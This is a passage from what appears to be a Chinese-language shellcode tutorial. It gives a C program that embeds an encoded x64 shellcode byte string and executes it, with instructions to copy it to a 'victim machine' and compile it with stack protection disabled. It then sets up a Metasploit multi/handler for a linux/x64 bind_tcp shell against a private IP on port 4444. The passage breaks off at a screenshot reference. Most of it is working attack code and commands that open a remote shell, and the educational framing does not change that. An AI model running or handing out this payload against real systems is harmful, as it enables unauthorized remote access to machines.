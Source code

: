 ```
#include<stdio.h>
#include<string.h>
unsigned char code[] =
"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xdd\x0a\x08\xe9\x70\x39\xf7\x21\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb7\x23\x50\x70\x1a\x3b"
"\xa8\x4b\xdc\x54\x07\xec\x38\xae\xa5\xe6\xd9\x2e\x0a\xe9\x61"
"\x65\xbf\xa8\x3b\x60\x18\xb3\x1a\x08\xaf\x2e\xd8\x53\x62\xdb"
"\x28\x36\xf2\x69\x4b\x60\x23\xb1\x7f\x3c\xa7\x77\x82\x60\x01"
"\xb1\xe9\x8f\xe7\x69\x54\xdc\x45\xd8\xb9\x53\xd5\x60\x87\xb8"
"\x0f\xe6\x75\x71\x61\x69\x4a\x55\x07\xec\x8f\xdf\xf7\x21";

int main()
{
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
}
```

然后，把它复制到我们的受害者机器上。现在，编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bin-tcp-msf.c -o bin-tcp-msf
$ ./bin-tcp-msf
```

它正在等待连接。现在，让我们使用 Metasploit 框架和`msfconsole`命令在攻击者机器上设置侦听器，然后选择处理程序：

```
use exploit/multi/handler
```

然后，我们使用以下命令选择有效负载：

```
set PAYLOAD linux/x64/shell/bind_tcp
```

现在，我们指定受害者机器的 IP：

```
set RHOST 192.168.238.128
```

然后，我们指定端口，Metasploit 的默认端口为`4444`：

```
set LPORT 4444
```

现在，我们运行我们的处理程序：

```
exploit
```

上述命令的输出显示在以下屏幕截图中：
